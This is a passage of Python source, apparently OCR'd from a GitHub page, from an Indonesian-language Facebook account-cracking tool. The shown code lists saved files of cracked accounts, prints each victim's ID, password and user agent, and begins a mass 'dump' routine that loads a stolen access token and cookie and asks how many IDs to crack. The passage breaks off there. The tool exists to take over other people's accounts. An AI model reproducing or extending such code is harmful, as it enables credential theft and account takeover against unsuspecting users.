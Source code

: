 				cpkuh=f'# ID : {cpkuni[0]} PASSWORD : {cpkuni[1]}'
				sol().print(mark(cpkuh,style="yellow"))
				nocp +=1
			input('[ Klik Enter ]')
			back()
	elif kz in ['2','02']:
		try:vin = os.listdir('OK')
		except FileNotFoundError:
			print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mFile Tidak Di Temukan ')
			time.sleep(2)
			back()
		if len(vin)==0:
			print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mAnda Tidak Mempunyai File OK ')
			time.sleep(2)
			back()
		else:
			cih = 0
			lol = {}
			for isi in vin:
				try:hem = open('OK/'+isi,'r').readlines()
				except:continue
				cih+=1
				if cih<100:
					nom = '0'+str(cih)
					lol.update({str(cih):str(isi)})
					lol.update({nom:str(isi)})
					print('['+nom+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)
				else:
					lol.update({str(cih):str(isi)})
					print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)
			geeh = input('\n\x1b[1;93m[\x1b[1;92m?\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mPilih > \x1b[1;93m')
			try:geh = lol[geeh]
			except KeyError:
				print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mPilih Yang Bener Kak ! ')
				exit()
			try:lin = open('OK/'+geh,'r').read().splitlines()
			except:
				print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mFile Tidak Di Temukan !')
				time.sleep(2)
				back()
			nocp=0
			for cpku in range(len(lin)):
				cpkuni=lin[nocp].split('|')
				cpkuh=f'# ID : {cpkuni[0]} PASSWORD : {cpkuni[1]}'
				sol().print(mark(cpkuh,style="green"))
				print(f'{hh}USER AGENT : {x}{cpkuni[2]}')
				nocp +=1
			input('[ Klik Enter ]')
			back()
	elif kz in ['0','00']:
		back()
	else:
		print('\x1b[1;93m[\x1b[1;92m!\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mPilih Yang Bener Kak !')
		exit()
def dump_massal():
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
	except IOError:
		exit()
	try:
		jum = int(input('\x1b[1;93m[\x1b[1;92m?\x1b[1;93m]\x1b[1;93m ╰─>\x1b[1;92mHOW MOCH ID FOR CRACK ? > \x1b[1;93m  '))
	except ValueError: